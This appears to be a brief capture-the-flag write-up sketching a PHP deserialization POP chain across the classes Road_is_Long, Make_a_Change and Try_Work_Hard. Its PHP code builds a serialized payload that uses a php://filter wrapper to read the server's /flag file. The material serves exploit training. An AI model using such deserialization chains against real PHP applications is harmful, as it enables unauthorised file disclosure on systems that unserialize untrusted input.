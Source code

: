 # 思路
	- 简单POP, 注意flag在根目录的`/flag`下
	- ```
	  Road_is_Long:: __wakeup -->
	  Road_is_Long:: __toString -->
	  Make_a_Change:: __get -->
	  Try_Work_Hard:: __invoke -->
	  Try_Work_Hard:: append
	  ```
	- ```php
	  $payload = "php://filter/read=convert.base64-encode/resource=/flag";
	  $o5 = new Try_Work_Hard();
	  $o5 -> setvar($payload);
	  $o3 = new Make_a_Change();
	  $o3 -> effort = $o5;
	  $o2 = new Road_is_Long();
	  $o2 -> string = $o3;
	  $o1 = new Road_is_Long();
	  $o1 -> page = $o2;
	  echo urlencode(serialize($o1));
	  
	  ```
-
